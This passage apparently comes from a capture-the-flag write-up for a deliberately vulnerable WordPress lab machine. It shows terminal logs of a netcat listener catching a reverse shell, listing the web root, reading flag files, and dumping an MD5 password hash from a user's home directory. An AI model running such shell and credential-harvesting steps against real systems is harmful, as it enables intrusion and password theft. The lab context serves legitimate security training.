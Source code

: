 ```console
bibo318@parrot:~/Downloads$ nc -nlvp 1234  # nc and then try to visite a site that not exist on the target website                                              
listening on [any] 1234 ...                                                                        
connect to [10.8.14.151] from (UNKNOWN) [10.10.250.6] 33657                                        
whoami                                                                                             
daemon                                                                                             
pwd                                                                                                
/opt/bitnami/apps/wordpress/htdocs
```

# user 
```
bibo318@parrot:~/Downloads$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.8.14.151] from (UNKNOWN) [10.10.250.6] 33664
ls
admin
audio
blog
css
fsocity.dic
images
index.html
index.php
intro.webm
js
key-1-of-3.txt
license.bk
license.txt
readme.html
robots.txt
sitemap.xml
sitemap.xml.gz
video
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
you-will-never-guess-this-file-name.txt
cat you-will-never-guess-this-file-name.txt
hello there person who found me.
ls /home 
robot
cd /home/robot
ls
key-2-of-3.txt
password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```
